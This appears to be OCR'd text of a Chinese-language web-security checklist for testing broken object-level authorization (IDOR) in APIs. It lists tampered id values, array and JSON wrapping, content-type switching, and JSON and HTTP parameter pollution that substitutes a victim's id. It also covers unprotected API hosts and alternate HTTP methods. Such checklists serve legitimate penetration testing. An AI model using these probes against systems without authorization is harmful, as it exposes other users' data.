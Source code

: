     - `userinfo/view?id=*`
    - `userinfo/view?id=ABC`
    - `userinfo/view?id=123ABC`
    - `userinfo/view?id=123ABC!@#`
    - `userinfo/view?id=1+2+3`
    - `userinfo/view?id=1%203`
- 添加参数
    - `userinfo/view`
    - `userinfo/view?id=xxx`
- 数组
    - `{"id":xxx}`
    - `{"id":[xxx]}`
- JSON 对象
    - `{"id":xxx}`
    - `{"id":{"id":xxx}}`
    - `{"id":{"id":[xxx]}}`
- 去 JSON
    - `{"id":xxx}`
    - `id=xxx`
- 更改请求内容类型
    - `Content-type: application/xml`
    - `Content-type: application/json`
- 通配符
    - `{""id"":""*""}`
- 尝试执行 JSON 参数污染
    ```bash
    POST api / get_profile
    {"user_id":<legit_id>，"user_id":<victim's_id>}
    {"id":2,"id":1}
    ```
    或
    ```bash
    POST api / get_profile
    {"user_id":<victim's_id>，"user_id":<legit_id>}
    ```
- 尝试执行 HTTP 参数污染:
    - `userinfo/view?id=xxx`
    - `userinfo/view?id=xxx&id=yyy`
    - `userinfo/view?id=xxx&id=yyy,zzz`
- 查找未启用授权机制的 API 主机、或 API 节点
- 测试不同平台的 API 点、如 APP、微信公众号
- 尝试使用 GET/POST/OPTIONS/PUT/TRACE 等方法